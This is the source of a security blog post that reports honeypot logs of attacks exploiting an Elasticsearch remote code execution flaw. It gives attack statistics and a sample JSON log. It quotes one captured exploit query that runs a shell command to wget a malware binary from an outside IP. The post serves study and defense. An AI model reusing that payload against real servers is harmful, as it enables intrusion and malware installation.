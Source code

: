 ```yaml
---
layout: post
title: "60 Days of Watching Hackers Attack Elasticsearch"
date: 2015-05-11 20:00:00
comments: true
published: true
categories:
- elastichoney
- elasticsearch
- honeypot
---
```

<img src="{{root_url}}/images/headers/elk_results.png"/>
### Introduction
Two months ago, one of my DigitalOcean instances started attacking another host with massive amounts of bogus traffic. I was notified by the abuse team at DO that my VPS was participating in a DDoS attack. I managed to track down that the attackers leveraged an [RCE vulnerability in Elasticsearch](/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/) to automatically download and run malware.

After re-building the box from scratch (with many improvements!), I [created a honeypot](/blog/2015/03/23/introducing-elastichoney-an-elasticsearch-honeypot/) called Elastichoney to measure how much this vulnerability is being exploited in the wild. Since then, I've had multiple sensors silently logging all attempts to exploit this vulnerability.

Here are the results.
<!--more-->
### Who's Attacking Me?

[Elastichoney](https://github.com/jordan-wright/elastichoney) keeps track of quite a bit of data, including the source IP and payload sent to the sensor. I logged every attack to an Elasticsearch instance (have some irony - free of charge!) and enriched the data with geoip information using Logstash. Finally, I created a slick dashboard using Kibana to view the results.

So far, I've had around 8k attempts to attack the honeypots from over 300 unique IP addresses. One of the immediate things I noticed was thing a vast majority (over 93%) of attacks were coming from Chinese IP addresses:

<img src="{{root_url}}/images/blog/elastichoney_elk/map.png"/>

The second thing that I noticed was how fast the majority of exploit attempts died down. Here's a histogram of attack attempts since the sensors have been running:

<img src="{{root_url}}/images/blog/elastichoney_elk/histogram.png"/>

You'll notice a spike between March 20<sup>th</sup> and April 11<sup>th</sup>. These attacks came from a few Chinese IP addresses that all stopped their attacks at the same time. But hey, attacks come in, attacks go out. [You can't explain that.](http://cdn.meme.am/instances/500x/58834359.jpg)

### What are the Attackers Doing?
I mentioned that Elastichoney logs the payload sent to the sensor. In some cases, these were attempts to run boring commands like ```whoami```, etc. However, in quite a few cases, the malware attempted to use ```wget``` to download and run malware - similar to what happened to my DO instance.

These looked something like this:

```
source={"query":+{"filtered":+{"query":+{"match_all":+{}}}},+"script_fields":+{"exp":+{"script":+"import+java.util.*;import+java.io.*;String+str+=+\"\";BufferedReader+br+=+new+BufferedReader(new+InputStreamReader(Runtime.getRuntime().exec(\"wget+-O+/tmp/zuosyn+http://115.28.216.181:995/zuosyn\").getInputStream()));StringBuilder+sb+=+new+StringBuilder();while((str=br.readLine())!=null){sb.append(str);sb.append(\"\r\n\");}sb.toString();"}},+"size":+1}
```

These malware samples were generally nothing more than basic bots. They could be compiled ELF binaries, or simple Perl scripts. While we're working to let Elastichoney automatically download these malware samples, for now the data is in the logs. Speaking of logs...

### The Raw Data
I'm a fan of open-sourcing as much information as possible if it helps the community. As such, I've decided to release all the logs I currently have.

You can download the raw JSON logs [here](/downloads/elastichoney_logs.json.gz). Here's an example log to show how the logs are structured:

```json
{
    "source": "222.186.56.46",
    "@timestamp": "2015-05-10T15:44:56.803Z",
    "url": "x.x.x.x:9200/_search?",
    "method": "GET",
    "form": "form_payload",
    "payload": "json_payload",
    "headers": {
        "user_agent": "python-requests/2.4.1 CPython/2.7.8 Windows/2003Server",
        "host": "x.x.x.x:9200",
        "content_type": "",
        "accept_language": ""
    },
    "type": "attack",
    "honeypot": "x.x.x.x",
    "@version": "1",
    "host": "127.0.0.1:39642",
    "name": "Python Requests",
    "os": "Windows",
    "os_name": "Windows",
    "device": "Other",
    "major": "2",
    "minor": "4",
    "geoip": {
        "ip": "222.186.56.46",
        "country_code2": "CN",
        "country_code3": "CHN",
        "country_name": "China",
        "continent_code": "AS",
        "region_name": "04",
        "city_name": "Nanjing",
        "latitude": 32.0617,
        "longitude": 118.77780000000001,
        "timezone": "Asia/Shanghai",
        "real_region_name": "Jiangsu",
        "location": [118.77780000000001, 32.0617]
    }
}
```

As always, let me know if you have any questions or comments below!

Enjoy!

-Jordan ([@jw_sec](https://twitter.com/jw_sec))
